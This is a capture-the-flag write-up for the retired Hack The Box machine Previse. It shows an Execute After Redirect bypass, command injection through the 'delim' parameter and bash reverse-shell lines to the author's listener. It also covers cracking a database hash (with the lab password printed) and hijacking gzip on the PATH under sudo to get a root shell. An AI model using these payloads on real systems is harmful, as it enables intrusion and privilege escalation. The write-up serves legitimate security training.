



# Previse

This is the write-up for the box Previse that got retired at the 8th January 2022.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.104    previse.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/previse.nmap 10.10.11.104
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
|_  256 33c189ea5973b1788438a421100c91d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website forwards to _login.php_ and there is a login field:



Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.11.104/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds several directories, but all of them forward to _login.php_:
- _index.php_
- _download.php_
- _files.php_
- _accounts.php_
- _config.php_
- _logs.php_

All these locations have different response sizes, which means that the content is loaded and then forwarded.
This vulnerability is called **Execute After Redirect (EAR)** and can be used to access functions that should not be seen.

By forwarding the requests to a proxy like **Burpsuite**, the other directories can be further analyzed.
When changing the response from _"302 Found"_ to _"200 OK"_, it will forward the data from the other directories to our browser:



In _accounts.php_ it is possible to create a user account that can be used to login to the website.
After login, the menu _Files_ has one uploaded file called _siteBackup.zip_ that can be downloaded:
```
unzip siteBackup.zip
```

Searching PHP files for all fields with user input:
```
grep '$_' * | grep -v '_SERVER\|_SESSION'
```

The file _logs.php_ uses an _exec_ function to execute system commands:
```
logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

When browsing to _logs.php_, it downloads a file without any useful information.
The file _file_logs.php_ is referencing this file and can be found in the menu as _Log Data_:
```
grep logs.php *
```
```
file_logs.php: <form action="logs.php" method="post">
```



Forwarding the request to **Burpsuite**:
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
(...)

delim=comma
```

The parameter _"delim"_ is executed by a Python script and it should be possible to inject commands after a semicolon:
```
delim=comma;sleep 2
```

The request takes more than two seconds which means that command execution is successful.
Using the vulnerability to gain a reverse shell:
```
delim=comma; bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1'
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

The file _config.php_ has credentials for the database:
```
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

Connecting to the database:
```
mysql -u root -p
```

Dumping the contents of the database:
```
mysql> show databases;

mysql> use previse;
mysql> show tables;

mysql> select * from accounts;
```
```
m4lwhere  | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```

There is a hash of the user _m4lwhere_ that also exists in the _/etc/passwd_ file.
Trying to crack the password with **Hashcat**:
```
hashcat -m 500 previse_sql.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password can be used to SSH into the box:
```
ssh m4lwhere@10.10.11.104

m4lwhere@10.10.11.104's password: ilovecody112235!
```

### Privilege Escalation to root

With `sudo -l` it is possible to check the root privileges of the user:
```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

The user _m4lwhere_ can run a bash script as root that uses `gzip` for backup.
The script itself cannot be abused to escalate privileges, but the `sudo` command did not show a _secure_path_.

This means that it is possible to create our own **gzip** executable in a path directory that has priority and it will be executed when running the script.

Adding the home directory to the **PATH environment variable**:
```
export PATH=/home/m4lwhere:$PATH
```

Creating a bash script with the name _gzip_ into the directory:
```bash
#!/bin/bash

echo "Here is a root shell"
bash -i >& /dev/tcp/10.10.14.3/9002 0>&1
```

Making the script executable:
```
chmod +x gzip
```

Executing the _access_backup.sh_ bash script with `sudo`:
```
sudo /opt/scripts/access_backup.sh
```

After executing the script, the listener on my IP and port 9002 starts a reverse shell as root!
